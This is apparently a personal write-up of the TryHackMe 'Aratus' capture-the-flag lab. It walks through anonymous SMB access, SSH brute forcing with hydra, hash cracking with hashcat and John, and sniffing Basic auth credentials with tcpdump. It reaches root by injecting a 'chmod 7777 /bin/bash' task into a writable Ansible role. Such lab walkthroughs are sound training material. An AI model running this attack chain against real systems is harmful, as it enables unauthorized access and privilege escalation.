



# Aratus
**Date:** March 26th 2022

**Author:** j.info

**Link:** [**Aratus**](https://tryhackme.com/room/aratus) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>



<br>

## Objectives
- user.txt flag
- root.txt flag

<br>

## Initial Enumeration

### Rustscan -> Nmap Scan

sudo rustscan --range 1-65535 --ulimit 5000 -a 10.10.74.76 -- -sC -sV

```
PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 61 vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
80/tcp  open  http        syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips)
139/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips)
445/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 4.10.16 (workgroup: WORKGROUP)
```

<br>

### Gobuster Scan

Running a gobuster scan on both the **http** and **https** sites didn't show anything with my standard **directory-list-2.3.-medium.txt** file. I'll circle back here if needed.

<br>

## Website Digging

Visiting the main page for the **http version** as well as the **https version** take you to the default setup page:



<br>

## FTP Digging

`ftp 10.10.74.76`

```
Connected to 10.10.74.76.
220 (vsFTPd 3.0.2)
Name (10.10.74.76:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||28865|).
150 Here comes the directory listing.
drwxr-xr-x    3 0        0              17 Nov 23 09:56 .
drwxr-xr-x    3 0        0              17 Nov 23 09:56 ..
drwxr-xr-x    2 0        0               6 Jun 09  2021 pub
ftp> cd pub
250 Directory successfully changed.
ftp> ls -al
229 Entering Extended Passive Mode (|||43892|).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0               6 Jun 09  2021 .
drwxr-xr-x    3 0        0              17 Nov 23 09:56 ..
226 Directory send OK.
```

Nothing there.

<br>

## SMB Digging

Listing shares available with no login credentials:

`smbclient -N -L //10.10.74.76`

```
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        temporary share Disk      
        IPC$            IPC       IPC Service (Samba 4.10.16)
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
```

Logging in to take a look at the **temporary share**:

`smbclient -N "\\\\10.10.74.76\temporary share"`

```
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 10 08:06:44 2022
  ..                                  D        0  Tue Nov 23 11:24:05 2021
  .bash_logout                        H       18  Tue Mar 31 22:17:30 2020
  .bash_profile                       H      193  Tue Mar 31 22:17:30 2020
  .bashrc                             H      231  Tue Mar 31 22:17:30 2020
  .bash_history                       H        0  Fri Mar 25 16:33:58 2022
  chapter1                            D        0  Tue Nov 23 05:07:47 2021
  chapter2                            D        0  Tue Nov 23 05:08:11 2021
  chapter3                            D        0  Tue Nov 23 05:08:18 2021
  chapter4                            D        0  Tue Nov 23 05:08:25 2021
  chapter5                            D        0  Tue Nov 23 05:08:33 2021
  chapter6                            D        0  Tue Nov 23 05:12:24 2021
  chapter7                            D        0  Tue Nov 23 06:14:27 2021
  chapter8                            D        0  Tue Nov 23 05:12:45 2021
  chapter9                            D        0  Tue Nov 23 05:12:53 2021
  .ssh                               DH        0  Mon Jan 10 08:05:34 2022
  .viminfo                            H        0  Fri Mar 25 16:33:58 2022
  message-to-simeon.txt               N      251  Mon Jan 10 08:06:44 2022

                37726212 blocks of size 1024. 35328516 blocks available
smb: \>
```

Downloading the files to a local folder:

```
smb: \> lcd smbfiles
smb: \> prompt
smb: \> recurse
smb: \> mget *
getting file \.bash_logout of size 18 as .bash_logout (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \.bash_profile of size 193 as .bash_profile (0.6 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \.bashrc of size 231 as .bashrc (0.7 KiloBytes/sec) (average 0.1 KiloBytes/sec)
NT_STATUS_ACCESS_DENIED opening remote file \.bash_history
NT_STATUS_ACCESS_DENIED opening remote file \.viminfo
getting file \message-to-simeon.txt of size 251 as message-to-simeon.txt (0.8 KiloBytes/sec) (average 0.2 KiloBytes/sec)
NT_STATUS_ACCESS_DENIED listing \.ssh\*
getting file \chapter1\paragraph1.1\text1.txt of size 3229 as chapter1/paragraph1.1/text1.txt (10.2 KiloBytes/sec) (average 0.5 KiloBytes/sec)
getting file \chapter1\paragraph1.1\text2.txt of size 3229 as chapter1/paragraph1.1/text2.txt (10.2 KiloBytes/sec) (average 0.9 KiloBytes/sec)
getting file \chapter1\paragraph1.1\text3.txt of size 3229 as chapter1/paragraph1.1/text3.txt (10.2 KiloBytes/sec) (average 1.2 KiloBytes/sec)

---SNIP---
```

It downloaded everything we have access to. Taking a look at the text files show they're your standard Lorem Ipsum and taking a look at `tree -h` shows they're all the same file size, so it doesn't look like we need to search through them all:

```
[4.0K]  .
├── [4.0K]  chapter1
│   ├── [4.0K]  paragraph1.1
│   │   ├── [3.2K]  text1.txt
│   │   ├── [3.2K]  text2.txt
│   │   └── [3.2K]  text3.txt
│   ├── [4.0K]  paragraph1.2
│   │   ├── [3.2K]  text1.txt
│   │   ├── [3.2K]  text2.txt
│   │   └── [3.2K]  text3.txt
│   └── [4.0K]  paragraph1.3
│       ├── [3.2K]  text1.txt
│       ├── [3.2K]  text2.txt
│       └── [3.2K]  text3.txt
├── [4.0K]  chapter2
│   ├── [4.0K]  paragraph2.1
│   │   ├── [3.2K]  text1.txt
│   │   ├── [3.2K]  text2.txt
│   │   └── [3.2K]  text3.txt
```

Nothing interesting in **.bash_logout, .bash_profile, or .bashrc**.

That leaves us the **message-to-simeon.txt** file:

```
Simeon,

Stop messing with your home directory, you are moving files and directories insecurely!
Just make a folder in /opt for your book project...

Also you password is insecure, could you please change it? It is all over the place now!

- Theodore
```

<br>

## Creating a Dictionary

So we have 2 potential usernames, and Simeon's password is insecure by the sound of it. Given the message says his password is all over the place I'm going to create a dictionary of his "book" and use that for the brute forcing instead of using the standard rockyou.

I take one of the text files that was downloaded from the SMB share and make a few quick edits by removing all periods and commas, as well as blank lines, and save the file.

I then write some **VERY** ugly python code that will read the contents of the file and split all words into a list, remove all duplicate values, and then output the results into a file called **wordlist.txt** with one word on each line effectively creating a dictionary of the text file to use in brute forcing.

```python
f = open("lorem.txt", 'r')
data = f.read()
f.close()
wordlist = data.split()
wordlist = list(set(wordlist))
f = open("wordlist.txt", 'w')
for word in wordlist:
    f.write(word + "\n")
f.close()
```

I know I know, the code is terrible, stop laughing! I'm still fairly new at coding.

<br>

## Simeon

I run a brute force with **hydra** using the dictionary I just created and it ends up finding Simeon's password!

`hydra -l simeon -P wordlist.txt 10.10.74.76 -t 4 ssh`

```
[22][ssh] host: 10.10.74.76   login: simeon   password: <REDACTED>
1 of 1 target successfully completed, 1 valid password found
```

With his password in hand I **SSH** over and it works!

`ssh simeon@10.10.74.76`

```
simeon@10.10.74.76's password: 
Last login: Mon Jan 10 14:07:52 2022 from 172.16.42.100
[simeon@aratus ~]$
```

<br>

## System Enumeration

Taking a look at **/etc/passwd** shows us 3 users other than root:

```
theodore:x:1001:1001::/home/theodore:/bin/bash
automation:x:1002:1002::/home/automation:/bin/bash
simeon:x:1003:1003::/home/simeon:/bin/bash
```

Checking out `id` for each user:

```
uid=1003(simeon) gid=1003(simeon) groups=1003(simeon) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=1001(theodore) gid=1001(theodore) groups=1001(theodore)
uid=1002(automation) gid=1002(automation) groups=1002(automation)
```

Checking `sudo -l` shows simeon isn't allowed to run anything.

I don't see any interesting files with **SUID** set.

Looking in **/opt** shows us 2 directories but we're unable to access either of them right now:

```
drwxr-x---.  4 automation theodore  90 Nov 23 17:59 ansible
drwxr-x---.  2 automation theodore  30 Nov 23 13:20 scripts
```

Looking back in the **/var/www/html** directory we see 2 directories:

```
drwxr-xr-x. 2 root root 230 Jan 10 14:01 simeon
drwxr-xr-x. 2 root root  41 Nov 23 14:08 test-auth
```

You can also visit these in a web browser:


<br>



<br>

There are just book files in the simeon directory, but **test-auth** has a **.htpasswd** file in it with credentials for **theodore**

`cat .htpasswd`

```
theodore:$apr1$pP2GhAkC$R12mw5B5lxUiaNj4Qt2pX1
```

<br>

## Password Cracking

Looking this hash type up on the [**hashcat wiki**](https://hashcat.net/wiki/doku.php?id=example_hashes) shows us that it's type:

```
1600	Apache $apr1$ MD5, md5apr1, MD5 (APR) 2
```

`hashcat -m 1600 -w 3 -D 1,2 hash.txt rockyou.txt`

It cracks within a few seconds:

```
$apr1$pP2GhAkC$R12mw5B5lxUiaNj4Qt2pX1:<REDACTED>
```

I try and switch over to theodore but the password doesn't work for ssh.

<br>

## More System Enumeration

I also try to login to ftp and smb with theodore's password that was just cracked and don't have any luck so I'm not sure what it's for yet.

I look back through the book and find that one file actually has a private RSA key in it. Very sneaky. Especially since they kept the file exactly the same size as all of the other files, so my search earlier with the `tree -h` command didn't help me flag it as out of the ordinary. The only thing different is the fact that the date on text2.txt was modified on January 10th while everything else was November 23rd:

```
\chapter7\paragraph7.1
  .                                   D        0  Mon Jan 10 08:13:51 2022
  ..                                  D        0  Tue Nov 23 06:14:27 2021
  text1.txt                           N     3229  Tue Nov 23 14:54:33 2021
  text3.txt                           N     3229  Tue Nov 23 14:54:33 2021
  text2.txt                           N     3229  Mon Jan 10 08:13:50 2022
```

I copy the private key into an **id_rsa** file on my system and run `ssh2john id_rsa > hash` on it, and then crack it with **John the Ripper**:

`john hash --wordlist=rockyou.txt`

```
<REDACTED>       (id_rsa)
```

It ends up matching the hash I cracked earlier from the .htpasswd file.

Time to try and ssh over as theodore:

`ssh -i id_rsa theodore@10.10.44.40`

```
Enter passphrase for key 'id_rsa': 
theodore@10.10.44.40's password:
```

No luck there either.

I check for files with capabilities set and it looks like **tcpdump** allows us to snoop on all traffic.

I listen to HTTP traffic by running:

`tcpdump -A -i lo port 80`

And within a minute or so I get:

```
20:00:01.347054 IP localhost.52594 > localhost.http: Flags [P.], seq 1:224, ack 1, win 342, options [nop,nop,TS val 3968706 ecr 3968706], length 223: HTTP: GET /test-auth/index.html HTTP/1.1
E..."d@.@............r.P@O..+......V.......
.<...<..GET /test-auth/index.html HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.14.2
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Authorization: Basic <REDACTED>
```

So there was an authorization sent over in standard base64 format which I decode by running:

`echo "<REDACTED>" | base64 -d`

And get back:

```
theodore:<REDACTED>
```

So we have credentials for theodore now it looks like!

<br>

## Theodore

I ssh over and login as theodore:

```
theodore@10.10.216.147's password: 
Last login: Fri Mar 25 21:57:42 2022
[theodore@aratus ~]$
```

I grab the user.txt flag in his home directory:

`wc -c user.txt`

```
38 user.txt
```

Looking around the home directory there are a couple directories:

```
drwx------. 4 theodore theodore  27 Nov 24 19:29 .ansible
drwxr-xr-x. 2 theodore theodore  30 Mar 25 22:00 scripts
```

The **scripts folder** ends up having a python script that automatically goes out to the test-auth website. This is what allowed us to capture the base64 auth code and get credentials for theodore.

The **.ansible directory** is empty save 2 directories called cp and tmp which are also empty.

I check to see if I can use `sudo -l` with anything find:

```
Matching Defaults entries for theodore on aratus:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User theodore may run the following commands on aratus:
    (automation) NOPASSWD: /opt/scripts/infra_as_code.sh
```

Looking at that script:

```
#!/bin/bash
cd /opt/ansible
/usr/bin/ansible-playbook /opt/ansible/playbooks/*.yaml
```

I change over to the **/opt** directory and find we now can access the 2 directories we couldn't earlier.

```
drwxr-x---.  4 automation theodore  90 Nov 23 17:59 ansible
drwxr-x---.  2 automation theodore  30 Nov 23 13:20 scripts
```

The **scripts** directory only has the script above from the sudo -l command.

The **ansible** directory has:

```
-rw-r--r--. 1 automation automation 190 Nov 23 13:09 ansible.cfg
-rw-r--r--. 1 root       root        14 Mar 26 18:50 inventory
drwxr-xr-x. 2 automation automation  99 Nov 23 13:55 playbooks
-rw-r--r--. 1 theodore   theodore   224 Nov 23 14:01 README.txt
drwxr-xr-x. 3 automation automation  32 Nov 23 13:25 roles
```

The script that showed up in sudo -l runs the **ansible-playbook** command against all **.yaml files** in the **/opt/ansible/playbooks/** directory. Let's take a look there and see what we can find.

I dig through all the files and everything seems pretty ordinary except the **httpd.yaml** file which is different from all the others. It has a **roles:** section where the others did not, as well as a **become: true**. The role it runs is **geerlingguy.apache**.

I change over to the **/opt/ansible/roles** and find a directory called **geerlineguy.apache** and changing to that directory lists a bunch of files.

Looking through all of the files and directories the only thing that stands out is in the **tasks** directory with a file called **configure-RedHat.yml**. A `ls -al` of that file shows us it has an ACL attached to it (the + at the end):

```
-rw-rw-r--+ 1 automation automation 1123 Dec  2 11:55 configure-RedHat.yml
```

Looking at the ACL with `getfacl configure-RedHat.yml`:

```
# file: configure-RedHat.yml
# owner: automation
# group: automation
user::rw-
user:theodore:rw-
group::rw-
mask::rw-
other::r--
```

So we have the ability to write to this file. Let's take a look inside and see what we can do with that ability.

```
--- SNIP ---

- name: Ensure httpd certs are installed (RHEL 8 and later).
  command: /usr/libexec/httpd-ssl-gencerts
  when:
    - ansible_distribution_major_version | int >= 8
    - not localhost_cert.stat.exists
```

Looking at that snippet of the file tells me that we have the ability to create our own entry and give it a command to run. I add this to the file:

```
- name: Test
  command: chmod 7777 /bin/bash
```

And then run the **infra_as_code.sh** script as the **automation** user:

`sudo -u automation /opt/scripts/infra_as_code.sh`

It goes through and runs all of the tasks and then pops up a warning about running chmod, and adding a warn: false to the entry, but it still works. Looking at **/bin/bash** shows us that it's been changed, and we can now escalate to root using it:

`ls -al /bin/bash`:

```
-rwsrwsrwt. 1 root root 964536 Nov 24 17:33 /bin/bash
```

<br>

## Root

Running `/bin/bash -p`:

```
[theodore@aratus tasks]$ /bin/bash -p
bash-4.2# whoami
root
```

And grabbing our **root.txt** flag:

`wc -c /root/root.txt`

```
38 root.txt
```

<br>

With that we've finished this CTF! Definitely an interesting escalation path on this one and I had fun going through this box.

<br>


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Interacting with an **SMB share** to download files and find sensitive information
- Creating a **python script** to build a dictionary for use in brute forcing
- Brute forcing an **ssh login** using the **hydra** tool
- Finding a password hash in a **.httpasswd** config file
- Cracking that hash with **hashcat**
- Finding a hidden **private rsa key** and cracking the passphrase with **John the Ripper**
- Using **tcpdump** to sniff credentials out of traffic
- Taking advantage of a **writable ansible file** and adding our own entry to escalate to root

<br>

Many thanks to:
- [**Biniru**](https://tryhackme.com/p/Biniru) for creating this CTF
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)